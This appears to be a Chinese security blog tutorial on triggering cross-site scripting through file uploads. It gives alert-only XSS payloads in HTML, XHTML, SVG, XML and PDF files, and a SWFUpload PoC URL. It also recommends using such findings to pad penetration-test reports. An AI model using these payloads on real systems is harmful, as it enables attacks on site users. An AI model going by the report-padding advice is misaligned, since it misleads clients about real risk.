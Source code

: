 #  【技术分享】文件上传XSS漏洞的利用方式   
原创 剁椒Muyou鱼头  剁椒Muyou鱼头   2025-01-02 00:30  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/92Yia6FpSFA2QiaAzq0Dumm39PGIsC7mk4lX6c4yYnERUGvnHo7SQreGiboYBj0ib7TlaUx1DKtEGlU8mqS9ZtLZRw/640?wx_fmt=gif "")  
  
**阅读须知**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/92Yia6FpSFA2QiaAzq0Dumm39PGIsC7mk4lX6c4yYnERUGvnHo7SQreGiboYBj0ib7TlaUx1DKtEGlU8mqS9ZtLZRw/640?wx_fmt=gif "")  
  
  
****  
**本公众号文章皆为网上公开的漏洞，仅供日常学习使用，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。**  
  
朋友们现在只对常读和星标的公众号才展示大图推送，建议大家把**剁椒Muyou鱼头**  
“设为星标”，否则可能就看不到了啦！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/92Yia6FpSFA2hvEA8gEIeGOEiba9uWicXD01hM2Bw8oTpcNCZl68Bj8T0aLpOHAMFCv9Qd6KeeQgTscOURdQUDbLw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/92Yia6FpSFA2QiaAzq0Dumm39PGIsC7mk4Z7hc6oGV6C6IwibzfQUM1oq1yUciadAKQ3Ap29o8GGnBU52wXgSSicBxQ/640?wx_fmt=gif "")  
  
  
****  
**2025/01/02 星期四**  
  
**多云·东****北风3级**  
  
  
//01 无法解析利用的废弃文件上传漏洞  
  
  
    在日常渗透测试中，会发现各种上传功能点，首先会测试利用是否存在文件上传漏洞，上传与网站脚本语言相对应的恶意代码动态脚本（如jsp、asp、php、aspx文件后缀）到服务器上，一旦这些脚本被Web容器解释并执行，就能访问这些脚本中包含的恶意代码，达到执行恶意代码的效果。  
  
    但是，在实际渗透测试中经常会发现一些无法解析的上传点，或者严格限制了上传文件的后缀名的上传点。这种漏洞在攻防演练中或许可以直接放弃，但是在一些特定的工作下，比如就是需要凑点漏洞写写报告，可以尝试上传一些可以解析XSS漏洞的文件，在报告里写一个XSS跨站脚本漏洞。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/92Yia6FpSFA2rayvPneR61SuaHko0u4lSQfd46n6IUhEYLwPDlgXDNUCb6grdUWRibmYr7zjmmsU2aZj7z6tqXRA/640?wx_fmt=png&from=appmsg "")  
  
  
//02 可以解析XSS漏洞的文件后缀  
  
<table><tbody><tr><td data-colwidth="62" width="62" valign="top"><section style="text-align: center;"><span leaf=""><span textstyle="" style="font-size: 15px;">序号</span></span></section></td><td data-colwidth="149" width="149" valign="top"><section><span leaf=""><span textstyle="" style="font-size: 15px;">后缀文件</span></span></section></td><td data-colwidth="362" width="362" valign="top"><section><span leaf=""><span textstyle="" style="font-size: 15px;">如何触发</span></span></section></td></tr><tr><td data-colwidth="62" width="62" valign="top"><section style="text-align: center;"><span leaf=""><span textstyle="" style="font-size: 15px;">1</span></span></section></td><td data-colwidth="149" width="149" valign="top"><section><span leaf=""><span textstyle="" style="font-size: 15px;color: rgb(0, 0, 0);font-weight: normal;">HTML后缀文件</span></span></section></td><td data-colwidth="362" width="362" valign="top"><section><span leaf=""><span textstyle="" style="font-size: 15px;">新建含有xss语句的html文件上传即可</span></span></section></td></tr><tr><td data-colwidth="62" width="62" valign="top"><section style="text-align: center;"><span leaf=""><span textstyle="" style="font-size: 15px;">2</span></span></section></td><td data-colwidth="149" width="149" valign="top"><section><span leaf=""><span textstyle="" style="font-size: 15px;font-weight: normal;">XHTML后缀文件</span></span></section></td><td data-colwidth="362" width="362" valign="top"><section><span leaf=""><span textstyle="" style="font-size: 15px;">新建含有xss语句的xhtml文件上传即可</span></span></section></td></tr><tr><td data-colwidth="62" width="62" valign="top"><section style="text-align: center;"><span leaf=""><span textstyle="" style="font-size: 15px;">3</span></span></section></td><td data-colwidth="149" width="149" valign="top"><section><span leaf=""><span textstyle="" style="font-size: 15px;font-weight: normal;">SVG后缀文件</span></span></section></td><td data-colwidth="362" width="362" valign="top"><section><span leaf=""><span textstyle="" style="font-size: 15px;">新建含有xss语句的svg文件上传即可</span></span></section></td></tr><tr><td data-colwidth="62" width="62" valign="top"><section style="text-align: center;"><span leaf=""><span textstyle="" style="font-size: 15px;">4</span></span></section></td><td data-colwidth="149" width="149" valign="top"><section><span leaf=""><span textstyle="" style="font-size: 15px;font-weight: normal;">XML后缀文件</span></span></section></td><td data-colwidth="362" width="362" valign="top"><section><span leaf=""><span textstyle="" style="font-size: 15px;">新建含有xss语句的xml文件上传即可</span></span></section></td></tr><tr><td data-colwidth="62" width="62" valign="top"><section style="text-align: center;"><span leaf=""><span textstyle="" style="font-size: 15px;">5</span></span></section></td><td data-colwidth="149" width="149" valign="top"><section><span leaf=""><span textstyle="" style="font-size: 15px;font-weight: normal;">PDF后缀文件</span></span></section></td><td data-colwidth="362" width="362" valign="top"><section><span leaf=""><span textstyle="" style="font-size: 15px;">在JavaScript中插入xss语句保存pdf上传</span></span><span style="font-size: 15px;letter-spacing: 0.034em;background-color: transparent;"><span leaf="">即可</span></span></section></td></tr><tr><td data-colwidth="62" width="62" valign="top"><section style="text-align: center;"><span leaf=""><span textstyle="" style="font-size: 15px;">6</span></span></section></td><td data-colwidth="149" width="149" valign="top"><section><span leaf=""><span textstyle="" style="font-size: 15px;font-weight: normal;">SWF后缀文件</span></span></section></td><td data-colwidth="362" width="362" valign="top"><section><span leaf=""><span textstyle="" style="font-size: 15px;">上传swfupload.swf文件构造指定语句触发</span></span></section></td></tr></tbody></table>  
  
//03 文件上传XSS漏洞测试  
  
  
HTML后缀文件  
```
<html>
<head>
<body><p></p></body>
<img src="1" onerror="alert('/xss/')">
</head>
</html>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/92Yia6FpSFA2rayvPneR61SuaHko0u4lS0F5eUSexTIZiagzfymnKBKCmLY3V3udffiaBRgaSuQYHY9eGTCyxtcZA/640?wx_fmt=png&from=appmsg "")  
  
  
XHTML后缀文件  
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
</head>
<body>
<img src="1" onerror="alert('/xss/')">
</body>
</html>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/92Yia6FpSFA2rayvPneR61SuaHko0u4lSzFbQiaicolcuiaQOOmgEHEqB25boOSlBF2NdO6ibzogppBBckibUudQNZlQ/640?wx_fmt=png&from=appmsg "")  
  
  
SVG后缀文件  
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(/xss/);
</script>
</svg>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/92Yia6FpSFA2rayvPneR61SuaHko0u4lSDzqeYurHSHeIsNETjaLqlEL7wZTERMZmGD6wMTQ0Wf4gLSFzw309FA/640?wx_fmt=png&from=appmsg "")  
  
  
XML后缀文件  
```
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml"> alert(/xss/);
</something:script>
</body>
</html>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/92Yia6FpSFA2rayvPneR61SuaHko0u4lSKPKlUOWquImA2DXnTib3hd7Iv6zFSQ1iaKEndqLzPvFmBiabBs8BGicxxw/640?wx_fmt=png&from=appmsg "")  
  
  
PDF后缀文件  
  
1.启动迅捷 PDF 编辑器打开一个 PDF 文件，或者使用“创建 PDF 文件”功能，通过将其他文档和资源转换为“可移植文档格式”来创建 PDF 文件。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/92Yia6FpSFA2rayvPneR61SuaHko0u4lSFuiceoibNrdgn38uqKV2cl8SpomWylBTqeWkguf7z6ICM5V2mn86eaxw/640?wx_fmt=png&from=appmsg "")  
  
  
2.单击左侧的“页面”标签，选择与之对应的页面缩略图，然后从选项下拉菜单中选择“页面属性”命令。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/92Yia6FpSFA2rayvPneR61SuaHko0u4lSjJ4P6CZJgCLe94Uiahnb5DoET2PM9YqMdTAxZZBoSKN6cd7wemYM80w/640?wx_fmt=png&from=appmsg "")  
  
  
3.在“页面属性”对话框单击“动作”标签，再从“选择动作”下拉菜单中选择“运行 JavaScript”命令，然后单击【添加】按钮，弹出 JavaScript 编辑器对话框。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/92Yia6FpSFA2rayvPneR61SuaHko0u4lSSkhtuMmTk68ibPITmHFontJ9fJ88rVpxlSsib4DTF4pibibQFoSbFz12oA/640?wx_fmt=png&from=appmsg "")  
  
  
4.在弹出的“JavaScript 编辑器”对话框中输入代码：app.alert('XSS');保存关闭，直接打开刚才保存的 PDF 文件，JavaScript 代码即被执行。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/92Yia6FpSFA2rayvPneR61SuaHko0u4lSo80j8KjuPHxQ9TUPtx5JRLm6PuoibVESIib4c1RGg3654cfqdCibe3vPw/640?wx_fmt=png&from=appmsg "")  
  
  
SWF后缀文件  
  
如果可以上传swf文件的话，可以利用SWFUpload 2.2.x版本存在XSS漏洞进行触发。一般很少碰到可以允许上传swf文件的情况。  
  
1.首先上传swfupload.swf文件，下面附上了下载地址。  
```
https://codeload.github.com/ntulip/swfupload-jquery-plugin/zip/refs/heads/master
```  
  
2.将swfupload.swf文件进行上传，然后构造以下POC进行触发XSS漏洞。  
```
swfupload.swf?movieName="%5d%29;}catch%28e%29{}if%28!self.a%29self.a=!alert%28/xss/%29;//
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/92Yia6FpSFA2rayvPneR61SuaHko0u4lS1L2Q6x5qj7Q8qlLnyUSWmI3oqYvTnlSMGicGxYu2FK9sdGicmo3HP9cw/640?wx_fmt=png&from=appmsg "")  
  
  
//04 总结  
  
  
    本文讲述了在无法解析利用的废弃文件上传漏洞的前提下，去触发XSS漏洞，来进行水报告的一种思路方式。但是在实际渗透测试和SRC挖掘时的确碰到过上传HTML文件触发XSS漏洞，被确认为XSS存储漏洞给奖励的，但是大多数的SRC厂商都是不收的，不过项目上水报告很好用。  
  
  
  
    
END   
  
  
   
作者 | 剁椒Muyou鱼头  
   
  
I like you,but just like you.  
  
我喜欢你，仅仅如此，喜欢而已~  
  
  
  
  
**********点赞在看不迷路哦！**  
  
  
